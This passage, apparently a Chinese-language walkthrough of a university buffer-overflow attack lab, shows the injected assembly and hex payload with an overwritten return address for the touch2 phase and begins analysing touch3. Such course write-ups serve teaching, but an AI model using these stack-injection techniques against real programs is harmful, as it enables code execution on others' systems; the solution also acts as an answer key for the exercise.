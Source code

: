 ```
```


得到了此时`%rsp`的地址
接下来我们编写程序使得第一个参数中的值变更为`cookie`，并跳转到`touch2`即可
于是编写汇编程序如下:
```
movq $0x4bca8e48,%rdi
mov $0x401934,%rsi
jmp *%rsi
ret
```
进行编译后反汇编得到十六进制文件

```
0000000000000000 <.text>:
   0:	48 c7 c7 48 8e ca 4b 	mov    $0x4bca8e48,%rdi
   7:	48 c7 c6 34 19 40 00 	mov    $0x401934,%rsi
   e:	ff e6                	jmpq   *%rsi
  10:	c3                    retq 
```

将十六进制数据整合并填充到输入中，尾部再加上`%rsp`地址即可
```
aws:
48 c7 c7 48 8e ca 4b 48 
c7 c6 34 19 40 00 ff e6
c3 00 00 00 00 00 00 00
98 89 64 55
```


## touch3
目的是调用`touch3`，与前面不同的是，这次传进的参数是一个字符串指针，同时`touch3`内部用了另外一个函数`hexmax`来比较。
本次要 比较的是与`cookie`所包含内容的字符串比较。在将`cookie`中内容转换为字符串时需注意在C语言中字符串是以`\0`结尾
，所以在字符串序列的结尾是一个字节0。
```
int hexmatch(unsigned val, char *sval)
{
     char cbuf[110];
     /* Make position of check string unpredictable */
     char *s = cbuf + random() % 100;
     sprintf(s, "%.8x", val); //s=val=cookie
     return strncmp(sval, s, 9) == 0; //比较cookie和所传入的参数的前9位是否相同
  	//注意cookie只有8字节。但是在C语言中字符串是以\0结尾，所以在字符串序列的结尾是一个字节0，
	//所以这里为9的原因是我们要比较最后一个是否为'\0'
 }
void touch3(char *sval)
 {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) { //相同则调用成功
         printf("Touch3!: You called touch3(\"%s\")\n", sval);
         validate(3);
    } else {
         printf("Misfire: You called touch3(\"%s\")\n", sval);
         fail(3);
     }
    exit(0);
 }
 ```
在`hexmatch`函数中注意到这个函数也开辟了栈帧。并且由于` char *s = cbuf + random() % 100;*s`存放的地址是随机的。
所以字符串s的地址我们是没法估计的。并且提示中告诉了我们`hexmatch`和`strncmp`函数可能会覆盖我们getbuf的缓冲区，
这是由于`test`函数中`callq  4018f2 <getbuf>`的返回所导致的。所以我们可以把数据放到一个相对安全的栈空间里，
这里我们选择放在父帧即`test`的栈空间里。这样就不会被后续函数所覆盖。
